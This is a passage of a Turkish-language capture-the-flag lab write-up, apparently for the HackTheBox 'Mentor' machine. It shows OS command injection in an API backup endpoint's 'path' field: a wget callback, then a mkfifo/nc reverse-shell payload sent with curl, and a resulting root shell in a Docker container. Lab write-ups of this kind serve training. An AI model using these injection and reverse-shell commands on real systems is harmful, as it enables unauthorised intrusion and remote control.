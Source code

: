 ```json
{"detail":[{"loc":["body","path"],"msg":"field required","type":"value_error.missing"}]}
```

Beklenen format bu şekildedir.

Bir süre test ettikten sonra `path` parametresinin os command injection zafiyetine karşı savunmasız olduğu ortaya çıktı.

```bash
root@acivik:~/Mentor# curl -i -s -k -X 'POST' -H 'content-type: application/json' -H 'Authorization:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' --data '{"path":";wget 10.10.14.13:1234 #"}' 'http://api.mentorquotes.htb/admin/backup'

root@acivik:~/Mentor# nc -lnvp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.86.80.
Ncat: Connection from 10.129.86.80:42848.
GET / HTTP/1.1
Host: 10.10.14.13:1234
User-Agent: Wget
Connection: close
```

Reverse shell almak için kullandığımızda başarılı oluyoruz.

```bash
root@acivik:~/Mentor# curl -i -s -k -X 'POST' -H 'content-type: application/json' -H 'Authorization:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' --data '{"path":";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 1234 >/tmp/f #"}' 'http://api.mentorquotes.htb/admin/backup'

root@acivik:~/Mentor# nc -lnvp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.86.80.
Ncat: Connection from 10.129.86.80:42785.
/bin/sh: can't access tty; job control turned off
/app #

```

Docker Container içerisinden root shell elde ettik.

```bash
/app/app # ls -la
total 28
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 .
drwxr-xr-x    1 root     root          4096 Dec 13 16:11 ..
-rw-r--r--    1 root     root             0 Jun  4  2022 __init__.py
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 __pycache__
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 api
-rw-r--r--    1 root     root             0 Jun  4  2022 config.py
-rw-r--r--    1 root     root          1001 Jun  7  2022 db.py
-rw-r--r--    1 root     root          1149 Jun  4  2022 main.py
-rw-r--r--    1 root     root           704 Jun  4  2022 requirements.txt
/app/app #
```
